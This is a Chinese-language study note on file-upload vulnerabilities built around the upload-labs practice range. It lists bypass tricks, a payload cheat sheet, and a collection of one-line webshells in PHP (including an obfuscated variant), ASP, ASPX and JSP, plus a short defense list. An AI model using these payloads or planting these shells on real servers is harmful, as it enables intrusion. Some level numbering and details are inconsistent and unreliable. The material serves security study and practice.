




#我 这周主要学习了文件上传漏洞

> 适用范围：CTF Web 方向 / upload-labs 靶场 / 真实业务测试
> 核心原理：**服务端未对上传文件做严格校验，导致可上传 Web 脚本（一句话木马）并被解析执行**

---

## 一、漏洞本质与利用链

```
上传一句话木马 → 文件落在 Web 可访问目录 → 被当成脚本解析执行 → 蚁剑/哥斯拉连接 getshell
```

一句话木马（PHP）：
```php
<?php @eval($_POST['pass']); ?>
```


---

## 三、前端 JS 校验绕过（Pass 01）

### 特点
校验在浏览器端 `onchange` 事件里，上传前弹窗拦截。

### 绕过方式
1. 直接禁用 JS（浏览器插件 NoScript）
2. 抓包：先上传 `.jpg`，在 BP 拦截后把后缀改回 `.php`
3. 修改本地 JS 函数，把 `return false` 去掉
4. 上传 `shell.php` 时 BP 拦截，改成 `shell.php`（前端拦不住，因为是请求发出后才拦截）
对此我进行了上手实验


##

---

## 四、MIME 类型绕过（Pass 02）

### 后端校验
```php
if($_FILES['upload_file']['type'] != 'image/jpeg'){ ... }
```
校验的是 HTTP 请求头里的 `Content-Type`。




### 绕过
抓包改 `Content-Type`：
```
Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif
```
文件本体还是 `.php` 木马。

---

## 五、后端黑名单绕过（Pass 03）

### 黑名单只过滤 `.php`，可利用的备选后缀
| 后缀 | 说明 |
|---|---|
| `.php3` | Apache 解析 |
| `.php4` | Apache 解析 |
| `.php5` | Apache 解析（最常用） |
| `.phtml` | Apache 解析 |
| `.phar` | Apache 解析 |
| `.pht` | Apache 解析 |
| `.phps` | 显示源码（不解析） |
| `.asp;.asa;.cer;.cdr` | IIS 环境 |
| `.aspx;.ashx;.asmx;.aspq` | IIS 环境 |
| `.jsp;.jspx;.jsw;.jsv` | Tomcat 环境 |
| `.jspx` | Tomcat 解析 |

> 关键：要配合 Apache 配置 `AddHandler application/x-httpd-php .php5` 才能解析。

### 绕过 payload
```
shell.php5
shell.phtml
shell.php3
```

---

## 六、黑名单绕过的变形技巧（Pass 04 / 05 / 06）

### 1. 点空格点（`xxx.php.`）
Windows 系统自动去掉末尾点：
```
shell.php.    ← 上传时
shell.php     ← 服务器实际保存



```

### 2. 末尾加空格（`xxx.php `）
Windows 自动去尾空格：
```
shell.php     ← 上传
shell.php     ← 实际

```

### 3. 末尾加 `::$DATA`（NTFS 特性）
Windows NTFS 文件流：
```
shell.php::$DATA
```
服务器保存成 `shell.php::$DATA`，但 Windows 解析时实际文件名是 `shell.php`。

### 4. 大小写混合
```
shell.PhP
shell.PHP
shell.pHp
```
黑名单只写小写 `.php`，Windows 不区分大小写。

### 5. 后缀名双写（`xxx.pphphp`）
如果后端用 `str_replace` 删除 `.php`，可双写：
```
shell.pphphp    → 删掉中间 php → shell.php
```

### 6. 点 + 空格 + 点组合
```
shell.php. .
shell.php...
```

---

## 七、白名单绕过（Pass 07 / 08）

### 特点
后端只允许 `jpg/png/gif`，黑名单反而安全，需要配合其他手段：
- `.htaccess` 上传
- `.user.ini` 上传
- 文件包含漏洞配合
- 0x00 截断

---

## 八、.htaccess 绕过（Pass 04）

### 条件
Apache + 允许 `.htaccess` 覆盖配置 + 当前目录可上传。

### 步骤
1. 先上传 `.htaccess` 文件，内容：
```
AddType application/x-httpd-php .jpg
```
意思：把当前目录下所有 `.jpg` 文件当 PHP 解析。

2. 再上传 `shell.jpg`（内容是 PHP 一句话）
3. 访问 `shell.jpg` 即可 getshell。

### 其他写法
```
<FilesMatch "shell">
SetHandler application/x-httpd-php
</FilesMatch>
```

---

## 九、.user.ini 绕过（Pass 07 类）

### 条件
PHP + CGI/FastCGI + `user_ini.filename = ".user.ini"`（默认开启）+ 同目录有 PHP 文件。

### 原理
`.user.ini` 是用户级配置，会自动作用于同目录及子目录的 PHP 文件。

### 步骤
1. 上传 `.user.ini` 文件：
```
auto_prepend_file = shell.jpg
```
意思：每个 PHP 文件执行前自动包含 `shell.jpg`。

2. 上传 `shell.jpg`（PHP 木马内容）
3. 访问同目录下任意 PHP 文件（如 `index.php`），自动包含 `shell.jpg` 执行。

---

## 十、文件头 / 图片马绕过（Pass 09）

### 条件
后端校验文件头（幻数），不是看后缀。

### 常见幻数
| 类型 | 幻数 |
|---|---|
| JPG | `FF D8 FF E0` |
| PNG | `89 50 4E 47` |
| GIF | `47 49 46 38`（即 `GIF89a`） |

### 制作图片马
方法一：命令行拼接
```bash
copy /b normal.jpg + shell.php shell.jpg
```
方法二：直接在图片二进制前面加 `GIF89a`：
```
GIF89a
<?php @eval($_POST['pass']); ?>
```

### 利用
配合**文件包含漏洞**：
```
http://target.com/index.php?file=upload/shell.jpg
```

---

## 十一、0x00 截断（Pass 11 / Pass 12）⭐

### 1. GET 型 00 截断（Pass 12）

#### 条件
- PHP < 5.3.4
- `magic_quotes_gpc = Off`
- 保存路径由 GET 参数控制

#### 原理
C 语言底层遇到 `0x00` 认为字符串结束，PHP 上层校验不识别。

#### 流程
```php
// 后端逻辑
$save_path = "../upload/" . $_GET['save_name'];
$ext = check_ext($_FILES['upload_file']['name']); // 校验后缀是 .jpg
move_uploaded_file($_FILES['upload_file']['tmp_name'], $save_path);
```

#### payload
```
save_name=shell.php%00.jpg
```

- 校验时看到后缀 `.jpg`，放行
- 保存时 `0x00` 截断，实际保存 `shell.php`

### 2. POST 型 00 截断（Pass 11）

#### 区别
文件名里截断，不是路径里截断。

#### payload
文件名：`shell.php%00.jpg`
在 BP 中把 `%00` 转成 hex 的 `00`（或直接在 Hex 面板把 `%00` 改成 `00`）。

### 修复
PHP 5.3.4+ 已修复；升级版本即可。

---

## 十二、路径长度截断（Pass 13 / 14 思路）

### 原理
Windows / Linux 路径长度限制：
- Windows 路径最长 260 字符
- 用 `./.` 或 `a/` 填充，让真实后缀被截断

### payload
```
shell.php.aaaaaaaaaaaaaaaa...(超长字符串)...
```

---

## 十三、条件竞争（Pass 17）

### 原理
后端先把文件上传到服务器，再校验删除（存在时间差）。

### 流程
1. 上传 `shell.php`，内容是：
```php
<?php
$f=fopen("shell2.php","w");
fwrite($f,'<?php @eval($_POST[pass]);?>');
fclose($f);
?>
```
2. 用 BP 不停重复上传（多线程并发）
3. 同时不停访问 `shell.php`
4. 只要在被删除前访问到，就会生成 `shell2.php`（永久留存）

---

## 十四、二次渲染绕过（Pass 16）

### 原理
后端把上传的图片重新渲染（GD 库），图片里嵌入的 PHP 代码会被破坏。

### 绕过
找二次渲染后**不会被修改**的位置，把 PHP 代码塞进去。

#### GIF 二次渲染
GIF 有多个帧，找未被渲染的帧插入代码。

#### PNG 二次渲染
利用 PNG 图片尾部附加数据（`iEND` 之后）。

#### 常用工具
- `GIMP` 手动编辑
- 网上现成的「二次渲染绕过 GIF」模板

---

## 十五、解析漏洞（配合上传）

### 1. Apache 解析漏洞
```
shell.php.xxx    ← Apache 从右往左解析后缀，不认识 .xxx 就继续往左，直到 .php
```

### 2. Nginx 解析漏洞（配置错误）
```
http://target.com/upload.jpg/.php
```
PHP-FPM 配置错误时会把 `upload.jpg` 当 PHP 解析。

### 3. IIS 6.0 解析漏洞
- 目录名带 `.asp`：`/upload.asp/shell.jpg` 当 ASP 解析
- 分号截断：`shell.asp;.jpg` 当成 `shell.asp`

### 4. IIS 7.0 / 7.5
类似 Nginx：`shell.jpg/.php` 解析。

---

## 十六、完整 payload 速查表

| 场景 | Payload |
|---|---|
| 前端 JS 绕过 | 禁用 JS / 改包 |
| MIME 校验 | `Content-Type: image/jpeg` |
| 黑名单 `.php` | `shell.php5` / `shell.phtml` |
| 黑名单点空格 | `shell.php.` / `shell.php ` |
| NTFS 流 | `shell.php::$DATA` |
| 大小写 | `shell.PhP` |
| 双写绕过 | `shell.pphphp` |
| .htaccess | 先传 `AddType application/x-httpd-php .jpg` |
| .user.ini | 先传 `auto_prepend_file=shell.jpg` |
| 图片马 | `GIF89a<?php eval($_POST[1]);?>` |
| GET 00 截断 | `path=shell.php%00.jpg` |
| POST 00 截断 | 文件名 `shell.php%00.jpg`，Hex 改 `00` |
| 路径截断 | 超长 `a/` 填充 |
| 条件竞争 | 并发上传 + 并发访问 |
| 二次渲染 | 用模板图插入代码 |

---

## 十七、防御建议

1. **后缀白名单**（不建议黑名单）
2. **检查文件内容**（getimagesize / 重新渲染）
3. **重命名文件**（随机文件名 + 随机目录）
4. **关闭执行权限**（上传目录不可执行）
5. **不暴露路径**（上传目录用域名隔离）
6. 升级 PHP 版本，修复 00 截断
7. `magic_quotes_gpc = On`（旧版本）
8. 限制 MIME 类型
9. 禁止 `.htaccess` 覆盖
10. 关闭 `user.ini` 自动解析

---

## 十八、upload-labs 关卡速查

| Pass | 考点 | 关键字 |
|---|---|---|
| 01 | 前端 JS 校验 | 改 JS / 抓包 |
| 02 | MIME 类型 | 改 Content-Type |
| 03 | 黑名单后缀 | `.php5` / `.phtml` |
| 04 | .htaccess | 先传 `.htaccess` |
| 05 | 点空格点 | `shell.php.` |
| 06 | 大小写 | `shell.PhP` |
| 07 | 末尾空格 | `shell.php ` |
| 08 | 末尾点 | `shell.php.` |
| 09 | `::$DATA` | `shell.php::$DATA` |
| 10 | 双写 | `shell.pphphp` |
| 11 | POST 00 截断 | `shell.php%00.jpg` |
| 12 | GET 00 截断 | `save_name=shell.php%00.jpg` |
| 13 | 图片马 | 配合文件包含 |
| 14 | 图片马（幻数） | `GIF89a` |
| 15 | 图片马（检查内容） | 配合包含 |
| 16 | 二次渲染 | 找未渲染位置 |
| 17 | 条件竞争 | 并发上传访问 |
| 18 | 条件竞争（版本） | 同上 |
| 19 | 路径解析漏洞 | 配合解析 |
| 20 | 点空格点绕过 | `shell.php.` |

---

## 十九、一句话木马合集

### PHP
```php
<?php @eval($_POST['pass']); ?>
```
变形：
```php
<?php assert($_POST['pass']); ?>
<?php
$a='ass'.'ert';
@$a($_POST['pass']);
?>
```

### ASP
```asp
<%eval request("pass")%>
```

### ASPX
```aspx
<%@ Page Language="Jscript"%>
<%eval(Request.Item["pass"],"unsafe");%>
```

### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParameter("pass")); %>
```

---

## 二十、常用连接工具

| 工具 | 语言 |
|---|---|
| 中国蚁剑（AntSword） | PHP / ASP / ASPX / JSP |
| 哥斯拉（Godzilla） | PHP / ASPX / JSP |
| 冰蝎（Behinder） | PHP / ASPX / JSP |
| Chopper（菜刀） | PHP / ASP |

--
